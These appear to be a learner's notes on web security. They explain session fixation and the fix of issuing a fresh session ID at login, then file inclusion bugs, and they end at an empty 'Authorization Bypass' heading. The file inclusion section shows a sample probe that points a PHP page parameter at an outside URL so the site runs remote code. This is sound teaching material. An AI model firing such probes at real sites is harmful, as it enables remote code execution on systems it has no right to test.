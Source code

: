 It'a a bug where the session becomes fixated.

If the session ID in an insecure location (the query string for example), an attacker can trick a victim into using a given session ID to log in.

### Two underlyings problems

- Session IDs in the query string are easy to leak to other users (or other sites via Referer)
- Session IDs are used as the sole mechanism to bind a browser to a user

### Visible session IDs

Mostly a problem of the past, only remains in legacy PHP apps. They not only enable session fixation, but complete leakage of session credentials!

#### Session == Authentication

Session are most commonly used for consistent authentication throughout the user's continued use of an application, right?

But they are often used to store things like:

- number of login attemps
- saved email/username
- many other pieces of data

### Mitigation

Getting rid of visible Session ID, but if your app/server still allows them, it's still insecure.

When a user logs in, they get a brand new session with a brand new ID. No matter if they just got a session for visiting the site 30seconds ago. This cuts session fixation by not allowing a single session ID to persist across logins, and reinforces the proper session == authentication paradigm

## [File Inclusion Bugs](https://www.youtube.com/watch?v=tkSmaMlSQ9E&list=PLxhvVyxYRviZd1oEA9nmnilY3PhVrt4nj&index=7)

### Example

You're testing a website and you see the following URL:

`http://example.com/index.php?page=home`

If you change the query to `?page=test`, it gives you the following error:

`Warning: include(test.php): failed to open stream: No such file or directory in - on line 26`

It seems to include() page you reference in the query, and appending '.php' to it.

What if we change it to `?page=http://demoseen.com/test`?
Suddenly, it's making a web request -- any code that's contained in that file is going to be executed by the website.
In many cases, PHP (and other languages/frameworks) will be configured to not allow web requests from an include(). When they're possible, you have RFI -- when they're not, LFI.

### Authorization Bypass
